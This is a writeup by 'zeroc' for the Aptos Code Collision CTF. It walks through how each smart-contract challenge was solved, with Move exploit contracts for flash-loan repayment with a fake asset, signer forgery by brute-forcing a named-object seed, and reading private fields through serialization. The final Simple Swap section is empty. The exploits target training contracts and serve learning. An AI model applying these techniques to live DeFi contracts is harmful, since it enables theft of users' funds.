# Aptos Code Collision CTF Writeup by zeroc

I participated in the [Aptos Code Collision CTF](https://ctf.aptosfoundation.org/) and learned a lot as a beginner in aptos. Below are the detailed writeups for this game.

rank: 5



## Basic

Figuring out the whole challenge framework of this game may help you solve the challenges more easily.

There will be a server listening on a specific port and you can interact with it by establishing tcp connection. In general, your final goal is to make the `is_solved` function in the challenge contract not abort, then the server will give you the flag.

The general interaction process is as follows:
* The server listens on a specific port and waits for the client to connect.
* Once the client connects, the server will prepare a local environment to emulate the execution of the challenge contract.
* The client needs to send the bytecode of solution contract to the server. The server will publish all the contracts and may call the `initialize` function of the challenge contract to initialize the environment.
* The server waits for a series of instructions in the form of `address::module::function` from the client. The server will call the corresponding function of the corresponding module in the corresponding address. When the `solve` function of the solution contract is called, the server will return the result to the client.

## Welcome

It's a checkin challenge, the `is_solved` function in challenge contract will return `true` if `challenge_status.is_solved` is `true`. And we can see that the `solve` function in challenge contract will set `challenge_status.is_solved` to `true`.

So we just need to call the `solve` function in the solution contract.

```move
module solution::exploit {
    use challenge::welcome;

    public entry fun solve(account: &signer) {
        welcome::solve(account);
    }
}
```



## Can You Revela Me

This challenge is a Reverse challenge, you need to decompile the given bytecode and figure out the original source code of the challenge contract. You can use `aptos move decompile` command to decompile the bytecode.(You need to download revela at first)

So we can get the [decomplied source code of the challenge contract](./can-you-revela-me/source.mv.move). To get the flag, we can use unit test to print the flag, just change the `get_flag` function as follows:

```move
use std::debug;
#[test]
public fun get_flag() : vector<u8> {
let v0 = a0();
    0x1::vector::append<u8>(&mut v0, a1());
    0x1::vector::append<u8>(&mut v0, a2());
    0x1::vector::append<u8>(&mut v0, a3());
    0x1::vector::append<u8>(&mut v0, a4());
    0x1::vector::append<u8>(&mut v0, a5());
    0x1::vector::append<u8>(&mut v0, a6());
    0x1::vector::append<u8>(&mut v0, a7());
    0x1::vector::append<u8>(&mut v0, a8());
    0x1::vector::append<u8>(&mut v0, a9());
    0x1::vector::append<u8>(&mut v0, a10());
    0x1::vector::append<u8>(&mut v0, b"}");
    debug::print<vector<u8>>(&v0);
    v0
}
```

And run `aptos move test` to get the flag.



## Flash Loan

As the name of the challenge suggests, this challenge requires exploiting a vulnerability in the flash loan contract to solve it. So we first need to understand  all the functions in the challenge contract, especially the functions we can call directly.

* `initialize`: It will create a fungible asset named `JBZ` and mint 1337 tokens of the asset using the mint reference as the initial supply.
* `flash_loan`: Set the `challenge_status.loan` to `true` and return the `amount` of fungible asset.
* `repay`: Set the `challenge_status.loan` to `false` and deposit the `amount` of fungible asset back to the `challenger`.
* `is_solved`: if `challenge_status.loan` is `true` or the balance of `challenger` not equals to 0, then abort.

Our goal is to withdraw all the fungible assets and make `challenge_status.loan` to `false`. Cause the implementation of this contract is extremely simple, it hasn't any check for the FungibleAsset you pass to the `repay` function. So we can just use a fake FungibleAsset to repay the loan.

```move
module solution::exploit {
    use challenge::flash;
    use aptos_framework::primary_fungible_store;
    use aptos_framework::fungible_asset;

    public entry fun solve(account: &signer) {
        let fa = flash::flash_loan(account, 1337);
        let metadata = fungible_asset::asset_metadata(&fa);
        let zero = fungible_asset::zero(metadata);
        primary_fungible_store::deposit(@1338, fa);  
        flash::repay(account, zero);
    }
}
```



## U Can't Touch This

Unlike the previous challenge, this challenge checks the `touched_this` function. You need to make the sha256 hash of the `flag.data` equal to `28ae486bc9f63979792edfd396c29c8ee275a8248ffc4da9d612eec60d6837f3`. So we can get the original value of `flag.data` by cracking the hash.

You can query this hash on the [CrackStation](https://crackstation.net/), it will tell you that the original value of `flag.data` is `osec`. We just get the original value and need to explore the way to change the `flag.data` to the target value.

Obviously, the `touch_this` function can change `flag.data` to the value you pass in. But it will call `check_admin` function first, that function will check the first and second bytes of the address of the signer. If the first byte is not `0xf7` or the second byte is not `0x5d`, then the function will abort.

Before exploiting its vulnerability, we can learn something about `signer` in the aptos move language: https://aptos.dev/en/build/smart-contracts/book/signer. It says that `In other words, all of the signer arguments must come first`. A obvious idea is to forge a signer, so we just need to know how the address of the signer is calculated.

You can easily find the `generate_signer` function in `aptos_framework::object` module, it will generate a signer with the `ConstructorRef` you pass in and the `ConstructorRef.self` corresponding to the address of the signer. Going further, you can find many functions in `aptos_framework::object` module that return `ConstructorRef` type, but what we need is a controllable address. The function that satisfies the condition is `create_named_object`.

The calculation of the address of the signer in the `create_named_object` function is as follows:
```
address = sha3(creator.address + seed + OBJECT_FROM_SEED_ADDRESS_SCHEME)
```
So we just need to brute force the `seed` to get the address we want. Below is a simple python script to brute force the seed.

```python
import hashlib
import random

prefix = bytes.fromhex("9c3b634ac05d0af393e0f93b9b19b61e7cac1c519f566276aa0c6fd15dac12aa")
suffix = bytes.fromhex("fe")
while True:
    seed = random.randbytes(8)
    if hashlib.sha3_256(prefix + seed + suffix).hexdigest().startswith("f75d"):
        print(seed.hex())
        break
```

And the solution contract is as follows:

```move
module solution::exploit {
    use uctt::this::{Self, SafeDepositBox};
    use aptos_framework::object;

    public entry fun solve(account: &signer) {
        let addr = @0x5d26592cd1c87c51aec9a4f0071011905b534b62a0eae4c5966ef8f13b5f4011;
        let safebox = object::address_to_object<SafeDepositBox>(addr);
        let cdef = object::create_named_object(account, x"4b5c981a4f784a79");
        let tsigner = object::generate_signer(&cdef);
        let flag = this::open_safe(safebox, &tsigner);
        flag = this::touch_this(flag, x"6f736563", &tsigner);
        this::close_safe(flag, account);
    }
}
```



## super mario 16

This is the first challenge of a series of super mario challenges, our goal is to set the `peach.kidnapped` to `false`.

In this challenge, we need to make `mario.hp >= bowser.hp` and call the `battle` function in the challenge contract to meet the requirements. We can see that the `initialize` function sets the `bowser.hp` to `254` and the initial value of `mario.hp` is `0`. So we need to increase the value of `mario.hp` or decrease the value of `bowser.hp`.

For this challenge we have two ways to solve it:
* Call `train_mario` function 127 times to increase the value of `mario.hp` to `254`.
* Using the `get_wrapper` function to get the `bowser` object and call the `set_hp` function to set the `bowser.hp` to `0`.

The solution contract is as follows:

```move
module solution::exploit {
    use challenge::router::{Self, Mario, Bowser};
    use aptos_framework::object;

    public entry fun solve(account: &signer) {
        let addr = router::start_game(account);
        let mario = object::address_to_object<Mario>(addr);
        let addr2 = router::get_wrapper();
        let bowser = object::address_to_object<Bowser>(addr2);
        router::set_hp(account, bowser, 0);
        router::battle(account, mario);
    }
}
```

## super mario 32

The difference between this challenge and the previous one is that the comparison between `mario.hp` and `bowser.hp` is changed to `mario.hp > bowser.hp`. So the method of using `train_mario` function to increase the value of `mario.hp` to `254` is no longer feasible. But we can still use the `get_wrapper` function to get the `bowser` object and call the `set_hp` function to set the `bowser.hp` to `0`.

The solution contract is as follows:

```move
module solution::exploit {
    use challenge::router::{Self, Mario, Bowser};
    use aptos_framework::object;

    public entry fun solve(account: &signer) {
        let addr = router::start_game(account);
        let mario = object::address_to_object<Mario>(addr);
        router::train_mario(account, mario);
        let addr2 = router::get_wrapper();
        let bowser = object::address_to_object<Bowser>(addr2);
        router::set_hp(account, bowser, 0);
        router::battle(account, mario);
    }
}
```



## super mario 64

The difference between this challenge and the previous one is that add check for the `owner` of the object in `set_hp` function. It results in that we can't set the `bowser.hp` to `0` directly. So we need to dig deeper into the challenge contract.

We can see that when `mario.hp == bowser.hp`, the `battle` function will burn the mario object that we pass in and transfer the mario object to the `account` which is created in `initialize` function and belongs to the same object as `bowser`. So we can use the `train_mario` function to make `mario.hp` equal to `bowser.hp` and call the `battle` function to make the `owner` of the `bowser` to be our `account`.

The solution contract is as follows:

```move
module solution::exploit {
    use challenge::router::{Self, Mario, Bowser};
    use aptos_framework::object;

    public entry fun solve(account: &signer) {
        let addr = router::start_game(account);
        let mario = object::address_to_object<Mario>(addr);
        for (i in 0..127) {
            router::train_mario(account, mario);
        };
        router::battle(account, mario);
        let wrapper = router::get_wrapper();
        let bowser = object::address_to_object<Bowser>(wrapper);
        router::set_hp(account, bowser, 0);
        router::battle(account, mario);
    }
}
```



## Zero Knowledge Bug

In this challenge, the remote server will generate random value and call the `set_knowledge` function in challenge contract. You need to "guess" the random value three times to solve this challenge.

The challenge contract provide a function `get_knowledge` to get the `Knowledge` object, and we need to pass the `Knowledge` object and the "guess" value to the `prove` function to check if the "guess" value is equal to the random value. But you'll find that you can access the field of object outside the module where the object is defined. The solution is using the `std::bcs` module to serialize the `Knowledge` object and get the random value.

The solution contract is as follows:

```move
module solution::exploit {
    use zkb::verify;
    use std::bcs;
    use std::vector;

    public entry fun solve(account: &signer) {
        let know = verify::get_knowledge();
        let bytes = bcs::to_bytes(&know);
        let secret_value = vector::borrow(&bytes, 0);
        verify::prove(&mut know, (*secret_value as u64), account);
    }
}
```



## groth16

This challenge ostensibly requires you to provide a proof of groth16, but if you run the server locally, you will find that the `A` of `proof` is a illegal value and results in a exception. This makes me very confused as first.

When the author releases a [hint](https://aptos.dev/en/build/smart-contracts/book/functions#public-visibility) of this challenge, I see that the visibility of the `modify_value` function is `public entry`. So we can just call this function directly and meet the requirements of the challenge.

We just need to add one line of code to the `solve.py`:

```python
invoke_function(b"0x0000000000000000000000000000000000000000000000000000000000001337::flag::modify_value", conn)
```



## sage

It's a math problem, we can use the `solve_mod` function in sagemath to solve this problem, but it needs some bruteforce to get the correct answer. Because the equations are all in groups of three numbers, it is best to verify and blast them in groups.

The solution contract is as follows:

```move
module solution::exploit {
    use challenge::sage;

    public entry fun solve() {
        sage::challenge(vector[22, 12, 17, 6, 17, 0, 19, 20, 33, 0, 19, 8, 14, 13, 18, 24, 36, 20, 0, 10, 37, 0, 28, 4, 3, 41, 36, 1, 17, 37, 0, 32, 19, 7, 4, 29, 8, 11, 11, 34, 18, 39, 35, 32, 5, 11, 4, 16, 30, 39, 11, 4, 7, 0, 22, 8, 28, 15, 33, 0, 13, 4, 41], vector[25, 11, 6, 32, 13, 3, 12, 19, 2]);
    }
}
```



## Simple Swap


